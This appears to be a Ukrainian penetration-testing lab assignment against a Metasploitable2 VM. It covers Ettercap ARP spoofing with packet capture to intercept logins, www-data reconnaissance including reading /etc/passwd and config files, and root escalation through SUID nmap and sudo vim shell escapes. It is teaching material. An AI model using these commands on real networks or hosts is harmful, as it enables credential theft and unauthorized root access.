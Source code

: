# 🛡️ Lab 4: Мережа + підвищення

## 1. 🕵️‍♂️ MITM атака з Ettercap (ARP Spoofing)

### 🔹 Опис завдання:

Провести ARP Spoofing-атаку за допомогою `Ettercap`, перехопити трафік між атакованою машиною та шлюзом.

### 🔹 Кроки виконання:

1. Запусти `Ettercap` у графічному режимі або CLI:
   ```bash
   ettercap -T -M arp:remote /victim_ip/ /gateway_ip/
   ```
2. Визнач жертву (Metasploitable2) та шлюз (наприклад, роутер або Kali).
3. Запусти атаку, проаналізуй отримані пакети tcpdump -i eth0 host 192.168.0.0 -w dump.pcap - може вдастся перехопити облікові записи під час авторизації у локальний або публічний ресурс.

### 🔹 Що надати:

- Скріншоти конфігурації Ettercap
- Перехоплений логін/пароль (якщо вийде)
- Проблеми (наприклад: дублікати IP, захист OS)

---

## 2. 🧙‍♂️ Прихована розвідка з правами www-data

### 🔹 Опис завдання:

Після компрометації вебсервера (наприклад, через LFI або RCE), дослідити систему з правами `www-data`.

### 🔹 Цілі:

- Знайти користувачів
- Перевірити доступні конфіги
- Зібрати інформацію про процеси та мережу
- Передивитись історію і можливі запущені процеси та права на них

### 🔹 Команди:

```bash
whoami
id
cat /etc/passwd
ps aux
netstat -tulpan
find / -type f -name '*.conf' 2>/dev/null
```

### 🔹 Що надати:

- Скріншоти команд і виводу
- Виявлені цікаві конфіги або хардкод-паролі

---

## 3. 🔓 Підвищення привілеїв через SUID

### 🔹 Опис завдання:

Знайти бінарники з правами SUID і використати їх для отримання доступу до root.

### 🔹 Пошук:

```bash
find / -perm -4000 -type f 2>/dev/null
```

### 🔹 Популярні вектори:

- `/bin/bash`
- `/usr/bin/nmap`
- `/usr/bin/find`
- `/usr/bin/python`

### 🔹 Приклад експлуатації:

```bash
# для nmap
nmap --interactive
!sh
```

### 🔹 Що надати:

- Список знайдених SUID
- Метод експлуатації
- Доказ root-доступу (`whoami`)

---

## 4. 🧨 Підвищення прав через sudoers

### 🔹 Опис завдання:

Перевірити доступні sudo-команди для поточного користувача.

### 🔹 Команди:

```bash
sudo -l
```

### 🔹 Якщо доступно щось типу:

```bash
(root) NOPASSWD: /usr/bin/vim
```

### 🔹 Використати:

```bash
sudo vim -c '!sh'
```

### 🔹 Що надати:

- Результат `sudo -l`
- Команди експлуатації
- `id`/`whoami` як root

---

## 📋 Ресурси для Red Team та Pentest перевірок

### 🔹 Чеклісти та гіди:

- [Vulnerability dictionary](https://www.cobalt.io/vulnerability-wiki/v5-validation-sanitization)
- [Awesome-Hacking](https://github.com/Hack-with-Github/Awesome-Hacking)
- [Certified Red Team Professional (CRTP)](https://dev-angelist.gitbook.io/crtp-notes)
- [HackTricks](https://book.hacktricks.wiki/en/welcome/about-the-author.html)
- [Pentest Book](https://pentestbook.six2dez.com/enumeration/ports)
- [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/)
- [Application Security Cheat Sheet](https://0xn3va.gitbook.io/cheat-sheets/)
- [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/index.html)
- [PENTESTING-BIBLE](https://github.com/oxfemale/PENTESTING-BIBLE)
- [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/)
- [CSbyGB's Pentips](https://csbygb.gitbook.io/pentips)
- [Pentration Testing, Beginners To Expert!](https://github.com/xalgord/Massive-Web-Application-Penetration-Testing-Bug-Bounty-Notes)
- [Offensive Security Cheatsheet](https://cheatsheet.haax.fr/)
- [HighOn.Coffee](https://highon.coffee/blog/)
- [Red Team Guides](https://redteam.guide/docs/guides/)
- [Cyber-Bookmarks](https://x0rb3l.github.io/Cyber-Bookmarks/bookmarks.html)
- [IT-Security](https://sushant747.gitbooks.io/total-oscp-guide/content/)
- [IT-Security](https://sushant747.gitbooks.io/total-oscp-guide/content/)

---

✅ **Результати надати у вигляді скріншотів із короткими поясненнями:**

- Що виконано
- Які проблеми виникли (якщо були)
- Який результат досягнуто

